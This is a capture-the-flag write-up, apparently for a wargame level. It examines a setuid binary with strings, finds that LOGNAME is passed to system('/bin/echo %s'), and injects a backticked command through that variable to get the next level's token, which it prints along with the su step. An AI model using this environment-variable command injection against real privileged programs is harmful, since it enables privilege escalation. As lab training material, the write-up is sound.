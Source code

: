 First let’s do `ls -l`  to see what we have

We find a file `level07` owned by flag07. When we execute it, it returns `level07` as response

We use the command `strings` on the file and find this:

```jsx
/lib/ld-linux.so.2
zE&9qU
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
asprintf
getenv
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh 
UWVS
[^_]
LOGNAME
**/bin/echo %s** 
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
	gid
	uid
/home/user/level07
/usr/include/i386-linux-gnu/bits
/usr/include
level07.c
types.h
unistd.h
long long int
/home/user/level07/level07.c
__uid_t
envp
long long unsigned int
setresuid
getenv
setresgid
unsigned char
system
GNU C 4.6.3
argc
__gid_t
short unsigned int
main
asprintf
short int
buffer
argv
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.ctors
.dtors
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
.debug_aranges
.debug_info
.debug_abbrev
.debug_line
.debug_str
.debug_loc
crtstuff.c
__CTOR_LIST__
__DTOR_LIST__
__JCR_LIST__
__do_global_dtors_aux
completed.6159
dtor_idx.6161
frame_dummy
__CTOR_END__
__FRAME_END__
__JCR_END__
__do_global_ctors_aux
level07.c
__init_array_end
_DYNAMIC
__init_array_start
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
setresuid@@GLIBC_2.0
__i686.get_pc_thunk.bx
data_start
_edata
_fini
geteuid@@GLIBC_2.0
getegid@@GLIBC_2.0
__DTOR_END__
getenv@@GLIBC_2.0
__data_start
system@@GLIBC_2.0
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_start_main@@GLIBC_2.0
__libc_csu_init
_end
_start
_fp_hw
asprintf@@GLIBC_2.0
__bss_start
main
_Jv_RegisterClasses
setresgid@@GLIBC_2.0
_init
```

The interesting lines there are `LOGNAME` followed by`/bin/echo %s`

Now we know the file will execute `/bin/echo` using the env `LOGNAME` as `%s` so let’s exploit it.

Checking env variables using the command `env` we see that LOGNAME is set to level07 so let’s change it to getflag

```jsx
export LOGNAME=\`getflag\`
```

Now we can execute the file again and get the flag to log as the next user

```jsx
./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
su level08
Password fiumuikeil55xe9cu4dood66h
```